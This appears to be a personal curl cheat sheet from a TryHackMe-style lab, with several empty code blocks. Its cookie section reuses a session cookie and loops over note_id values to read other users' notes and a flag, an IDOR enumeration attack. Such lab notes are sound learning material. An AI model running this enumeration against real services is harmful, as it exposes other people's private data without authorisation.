 # curl

- [Basic](#basic)
- [Check files without downloading it](#check-the-availability-of-files-without-downloading-it)
- [Cookie](#cookie)

# Basic

### 
```sh

```

### 
```sh

```

## Check the availability of files without downloading it
```bash
#!/bin/bash

ip="http://example.com"  # Replace with the actual URL of the files

for i in {1..9}; do
    url="$ip/images/slide_$i.jpg"
    response=$(curl -s -I "$url" | grep "HTTP/1.1")

    if [[ "$response" =~ 200 ]]; then
        echo "Image $i is available"
        curl -so "slide_$i.jpg" "$url"   # download the file only if it's available
    else
        echo "Image $i is not available"
    fi
done
```

E.g.
```bash
$ ./script.sh   
Image 4 is available
Image 5 is available
Image 6 is not available
Image 7 is not available
```

# [Cookie](#cookie-1)
## 
```sh
$ curl --help all | g cookie 
 -b, --cookie <data|filename> Send cookies from string/file
 -c, --cookie-jar <filename> Write cookies to <filename> after operation
 -j, --junk-session-cookies Ignore session cookies read from file
```

## 
```sh
$ curl http://$t/note.php?note_id=1 -sb 'PHPSESSID=moi8d3p38cuf81n98nicsibd8u' | html2text          

[Avatar]
***** THM Note Server *****
Things to buy from the store:
2x carrots
1x potato
1x cheese
lots of chocolate!
```

## 
```sh
for i in {0..9}; do
url="http://$t/note.php?note_id=$i"
echo "\n>>> $url"; curl $url -sb 'PHPSESSID=moi8d3p38cuf81n98nicsibd8u' | html2text;
done
```

## 
```sh
$ for i in {0..9}; do
url="http://$t/note.php?note_id=$i"
echo "\n>>> $url"; curl $url -sb 'PHPSESSID=moi8d3p38cuf81n98nicsibd8u' | html2text;
done

>>> http://10.10.19.222/note.php?note_id=0

[Avatar]
***** THM Note Server *****
flag{fivefourthree}

>>> http://10.10.19.222/note.php?note_id=1

[Avatar]
***** THM Note Server *****
Things to buy from the store:
2x carrots
1x potato
1x cheese
lots of chocolate!

>>> http://10.10.19.222/note.php?note_id=2

[Avatar]
***** THM Note Server *****
2022-09-10: Meeting with Sophie S.
2022-09-12: Lunch at Manny's
2022-09-27: Stu's birthday

>>> http://10.10.19.222/note.php?note_id=3

[Avatar]
***** THM Note Server *****
You are not supposed to see this note... Which means you are on the right
track!

>>> http://10.10.19.222/note.php?note_id=4

[Avatar]
***** THM Note Server *****
Mark's new year resolutions 2022:
 - Write actual resolutions for next year
 - Go to the gym (for real)

>>> http://10.10.19.222/note.php?note_id=5

[Avatar]
***** THM Note Server *****
Hint: Do note_ids start from 1? Maybe go lower ;)

>>> http://10.10.19.222/note.php?note_id=6

[Avatar]
***** THM Note Server *****
Error: Note not found!

>>> http://10.10.19.222/note.php?note_id=7

[Avatar]
***** THM Note Server *****
Error: Note not found!

>>> http://10.10.19.222/note.php?note_id=8

[Avatar]
***** THM Note Server *****
Error: Note not found!

>>> http://10.10.19.222/note.php?note_id=9

[Avatar]
***** THM Note Server *****
Error: Note not found!

$ 
```

## 
```sh

```

## 
```sh

```

## 
```sh

```

## 
```sh

```

## 
```sh

```

## 
```sh

```

## 
```sh

```

# References

